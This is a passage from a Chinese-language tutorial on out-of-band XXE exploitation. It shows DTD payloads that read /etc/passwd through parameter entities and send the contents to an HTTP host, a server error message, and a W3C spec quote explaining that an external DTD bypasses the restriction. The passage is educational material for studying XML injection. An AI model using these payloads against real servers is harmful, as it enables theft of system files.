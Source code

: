 ### 数据带外

如果我们没有找到回显标签数据的接口，或是在Execel等特殊场景下无法回显数据，可以尝试通过带外的方式进行漏洞利用。

我们先了解一下如何通过实体定义其他实体：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'>">
	%parameter_entity;
]>
<root>&general_entity;</root>

```

实际上，上面的DTD达到下面DTD的效果，即通过参数实体，我们可以在XML中以字符串方式“eval”一个实体：

```
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % parameter_entity "<!ENTITY general_entity 'PwnFunction'>">
	<!ENTITY general_entity 'PwnFunction'>
]>
<root>&general_entity;</root>

```

我们可以尝试通过该方式定义实体send，让其带上文件内容：

```dtd
<?xml version="1.0"?>
<!DOCTYPE root[
	<!ENTITY % passwd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM  'http://127.0.0.1/?%passwd;'>">
	%wrapper;
]>
<root>&send;</root>

```

但当我们发送给服务器时可以发现会有如下报错信息：内部DTD中的markup（即ENTITY ATTLIST 等）不能使用 参数实体的引用。

```
{"timestamp":"...","status":500,"error":"Internal Server Error","message":"Error on line 4 of document  : The parameter entity reference \"%passwd;\" cannot occur within markup in the internal subset of the DTD. Nested exception: The parameter entity reference \"%passwd;\" cannot occur within markup in the internal subset of the DTD.","path":"/XXETest/dom4j"}
```

在XML标准文档中也可以看到确有这一规范，但其也指明了通过外部DTD可绕过这一限制：

https://www.w3.org/TR/REC-xml/#wfc-PEinInternalSubset

In the internal DTD subset, parameter-entity references *must not* occur within markup declarations; they may occur where markup declarations can occur. (This does not apply to references that occur in external parameter entities or to the external subset.)
